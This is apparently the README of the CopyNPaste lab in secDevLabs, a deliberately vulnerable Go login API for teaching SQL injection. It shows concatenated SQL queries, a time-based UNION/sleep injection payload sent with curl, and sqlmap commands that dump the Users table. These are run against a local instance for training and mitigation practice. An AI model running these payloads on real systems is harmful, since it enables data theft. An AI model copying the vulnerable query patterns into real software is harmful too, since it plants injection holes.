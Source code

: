 # CopyNPaste API

[Acessar conteúdo em Português](README_PT_BR.md)

<img src="images/CopyNPaste.png" align="center"/>

CopyNPaste is a Golang web application that uses an API and a simple front end to simulate a login page. It has both `/register` and `/login` routes that, by communicating with a MySQL database, enable users to register and enter into a generic system.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **SQL Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/copy-n-paste
```

```sh
make install
```

Then simply visit [localhost:10001][app], as exemplified below:

<img src="images/CopyNPaste.png" align="center"/>

## Get to know the app 💉

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.

* Register another user now using command line:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:10001/register
```

- Login as this second user now using command line:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:10001/login

```

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of SQL queries

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`](<(https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2021-apps/a3/copy-n-paste/app/util/db.go#)>) file, it was possible to see that some input from users are concatenated with SQL queries, as shown in the following code snippets:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is being made on these variables, SQL injections may be successfully executed in the database. Using the web interface, we can send some information, using the form from "inspect page", to better understand how it communicates with the API.

<img src="images/attack-0.png" align="center"/>

To confirm the input field is vulnerable, the following payload could be used to test if a 5 seconds delay will be noted after sending it:

```
-1' UNION select 1,2,sleep(5) -- '
```

<img src="images/attack-1.png" align="center"/>

Using `curl` on CLI interface, we can test it again, this time with a larger 30 seconds delay:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:10001/login
```

Request:

<img src="images/attack-2.png" align="center"/>

30 seconds later, thus confirming we can execute commands on the server:

<img src="images/attack-3.png" align="center"/>

#### 🔥

An attacker could now create any malicious SQL queries and send them to the API that, in theory, would be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed.

To install sqlmap on a Mac you can simply type:

```sh
brew install sqlmap
```

The first possible step is to create a file, `postRequest.txt`, containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:10001
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Before executing the attack, you can open a new tab in your terminal and type the following command to observe how the malicious requests will be received by the app:

```sh
docker logs a1_api -f
```

After that, we can now use `-r` option and wait for sqlmap to perform multiples malicious requests until it finds the vulnerable parameter:

```sh
sqlmap -r postRequest.txt
```

<img src="images/attack-4.png" align="center"/>

After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from it:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="images/attack-5.png" align="center"/>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to:

- Run SQL queries in the database.

## PR solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22CopyNPaste+API%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
